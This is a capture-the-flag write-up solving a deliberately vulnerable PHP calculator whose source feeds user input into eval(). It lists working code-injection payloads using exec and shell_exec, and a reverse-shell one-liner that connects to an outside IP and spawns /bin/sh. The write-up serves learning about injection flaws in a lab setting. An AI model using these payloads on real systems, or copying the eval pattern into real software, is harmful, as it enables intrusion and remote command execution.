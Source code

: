 # Calculator Evaluation

Web, 50

### Description

Apparently my friend had just started learning PHP recently, and he has created a calculator app!
Honestly, I'm not even sure whether it fits the name of being a calculator, given that it only adds the number 12 to any input.

You can check out the site where he's hosting the calculator app [here](http://challs.sieberrsec.tech:4587/calcv1.html).


Original Challenge Author: xzy_10

## Solution

### Basic Inspection

Viewing the page source of the webpage gives me this
```

<html>
	<head>
		<link rel="stylesheet" href="styles.css">
	</head>
	<body>

		<h1>Calculator App V1!</h1>
		<h2>Limited functionality for now... But I will add more in the future!</h2>

		<form action="calcv1.php" method="get">
			Number to be added: <input type="text" name="value"><br>
		<input type="submit" value="Add!" class="button">
		</form>
		
		<h2>Check out my code! Go to this <a href = "/calcv1.php.txt">link!</a></h2>
		</body>
</html>
```

### Testing Injection

I looked up the php code since they gave us access to it.
```
<?php
//Marvel at its sheer brilliance!
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);

if(isset($_GET["value"])){
	eval("\$sum = 12+".$_GET["value"].";");
	echo "<h2>".$sum."</h2>";
}
else
{
	echo("<h3>Put something in! God damn it this is supposed to be trivial!</h3>");
}
?>
```
When I noticed an eval statement, you know that you can do an injection or something similar with the input field they give you.

Putting in `12; $sum = 'shit';` and submitting you get
```
Your calculated answer is: shit
```

### Researching more on PHP injections

By googling "PHP injection eval" and also googling what functions allow you to execute commands, I realised that the `exec` command may be useful

Payload | Output
--|--
`0; $sum = exec('echo test');` | `Your calculated answer is: test`
`0; $sum = exec('ls');` | `Your calculated answer is: styles.css`
`0; $sum = exec('pwd');` | `Error!`
`0; $sum = exec('ls /bin');` | `Your calculated answer is: znew`
`0; $sum = exec('ls /');` | `Your calculated answer is: var`
`0; $sum = exec('python -c "print(1) " ');` | `Your calculated answer is:`

After a while I realised there is a better way to retrieve the output of the commands, because maybe they kept being cut off. A better payload to use is 0; `0; exec('ls ', $sum); $sum = implode("\n", $sum);`

Payload | Output
--|--
`0; exec('cat styles.css', $sum); $sum = implode($sum);` | `Your calculated answer is: @import url('https://fonts.googleapis.com/css2?family=Hind:wght@500;600&display=swap');h1 { font-family: 'Hind', sans-serif;}h2 { font-family: 'Hind', sans-serif;}h3 { font-family: 'Hind', sans-serif;}h4 { font-family: 'Hind', sans-serif;}h5 { font-family: 'Hind', sans-serif;}h6 { font-family: 'Hind', sans-serif;}form { font-family: 'Hind', sans-serif; font-size: 20px;}input { font-family: 'Hind', sans-serif; font-size: 20px;}.button { font-family: 'Hind', sans-serif; font-size: 20px; color: white; background-color: #0ecf9f;}`
`0; exec('ls', $sum); $sum = implode($sum);` | `Your calculated answer is: calcv1.htmlcalcv1.phpcalcv1.php.txtstyles.css`
`0; exec('ls ../', $sum); $sum = implode($sum);` | `Your calculated answer is: calc-evalflag`

Ok I have enough tinkering around with the tiny box, I want to get a proper shell. 

I found a payload online [here](https://www.netsparker.com/blog/web-security/understanding-reverse-shells/)

Putting in just `0; $sock=fsockopen("10.0.0.123",1111);exec("/bin/sh -i <&3 >&3 2>&3");` makes the webpage take a while to load. It returns 
```
Warning: fsockopen(): unable to connect to 10.0.0.123:1111 (Connection timed out) in /usr/src/calc-eval/calcv1.php(24) : eval()'d code on line 1
Your calculated answer is: 12
```

Using https://www.whatismyip.com/ to get my external IP address and using that address to connect to my PC doesn't seem like it works too. I think this is due to my router's firewall settings

### Final Solution

In the end I coded a python program to interact with the thing to make life easier. I also realised that `shell_exec` is a better function to use. Using my python program and probing around , I get the answer

```
> ls ../../
bin
games
include
lib
lib32
lib64
libx32
local
sbin
share
src

> ls ../
calc-eval
flag

> cat ../flag
IRS{pHp_eVAl_1s_ev1l_1f_y0u_d0nt_san1t1se_y0ur_1npUt5!}
````

## Flag

`IRS{pHp_eVAl_1s_ev1l_1f_y0u_d0nt_san1t1se_y0ur_1npUt5!}`